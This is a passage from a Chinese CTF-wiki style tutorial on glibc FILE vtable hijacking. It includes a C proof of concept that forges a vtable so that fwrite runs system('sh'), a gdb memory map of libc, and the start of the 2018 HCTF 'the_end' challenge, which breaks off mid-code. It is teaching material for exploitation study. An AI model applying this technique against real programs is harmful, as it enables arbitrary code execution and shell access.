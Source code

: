 

但是在目前libc2.23版本下，位於libc數據段的vtable是不可以進行寫入的。不過，通過在可控的內存中僞造vtable的方法依然可以實現利用。

```
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_addr,*fake_vtable;
    
    fp=fopen("123.txt","rw");
    fake_vtable=malloc(0x40);
    
    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset
    
    vtable_addr[0]=(long long)fake_vtable;
    
    memcpy(fp,"sh",3);
    
    fake_vtable[7]=system_ptr; //xsputn
    
    fwrite("hi",2,1,fp);
}
```

我們首先分配一款內存來存放僞造的vtable，之後修改_IO_FILE_plus的vtable指針指向這塊內存。因爲vtable中的指針我們放置的是system函數的地址，因此需要傳遞參數"/bin/sh"或"sh"。

因爲vtable中的函數調用時會把對應的_IO_FILE_plus指針作爲第一個參數傳遞，因此這裏我們把"sh"寫入_IO_FILE_plus頭部。之後對fwrite的調用就會經過我們僞造的vtable執行system("sh")。

同樣，如果程序中不存在fopen等函數創建的_IO_FILE時，也可以選擇stdin\stdout\stderr等位於libc.so中的_IO_FILE，這些流在printf\scanf等函數中就會被使用到。在libc2.23之前，這些vtable是可以寫入並且不存在其他檢測的。

```
print &_IO_2_1_stdin_
$2 = (struct _IO_FILE_plus *) 0x7ffff7dd18e0 <_IO_2_1_stdin_>

0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
```

## 2018 HCTF the_end

[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/io-file/2018_hctf_the_end/)

### 基本信息

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  signed int i; // [rsp+4h] [rbp-Ch]
  void *buf; // [rsp+8h] [rbp-8h]

  sleep(0);
  printf("here is a gift %p, good luck ;)\n", &sleep);
  fflush(_bss_start);
  close(1);
  close(2);
  for ( i = 0; i <= 4; ++i )
  {
    read(0, &buf, 8uLL);
    read(0, buf, 1uLL);
```